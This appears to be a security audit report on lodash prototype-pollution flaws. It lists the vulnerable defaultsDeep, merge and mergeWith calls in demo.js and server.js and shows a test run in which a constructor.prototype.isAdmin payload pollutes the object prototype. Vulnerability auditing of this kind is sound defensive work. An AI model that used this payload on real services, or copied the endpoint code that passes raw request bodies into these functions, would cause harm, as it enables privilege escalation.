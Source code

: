 ### Vulnerable Function Usage - CONFIRMED REACHABLE ⚠️

#### 1. `_.defaultsDeep()` - CVE-2019-10744 (CRITICAL)

**File**: `demo.js:35`
```javascript
const _ = require('lodash');
const result1 = _.defaultsDeep(defaults, payload1);
```

**File**: `server.js:20`
```javascript
const _ = require('lodash');
// Vulnerable endpoint demonstrating CVE-2019-10744 (defaultsDeep)
app.post('/api/defaults-deep', (req, res) => {
    const result = _.defaultsDeep(defaults, req.body);
```

**Impact**: Direct user input processing through vulnerable function in production endpoint

#### 2. `_.merge()` - CVE-2018-3721 

**File**: `demo.js:72`
```javascript
const result2 = _.merge(target, payload2);
```

**File**: `server.js:50`
```javascript
const result = _.merge(target, req.body);
```

#### 3. `_.mergeWith()` - CVE-2018-3721

**File**: `server.js:87`
```javascript
const result = _.mergeWith(target, req.body, customizer);
```

---

## Exploitation Verification

### Successful Exploitation Test ✅

**Test Command**: `node demo.js`

**Results**:
```
🚨 Lodash Vulnerability Demonstration
=====================================
Lodash version: 4.17.11

1. Testing CVE-2019-10744 (defaultsDeep):
Payload: {"constructor": {"prototype": {"isAdmin": true}}}
✅ Prototype successfully polluted via defaultsDeep!
```
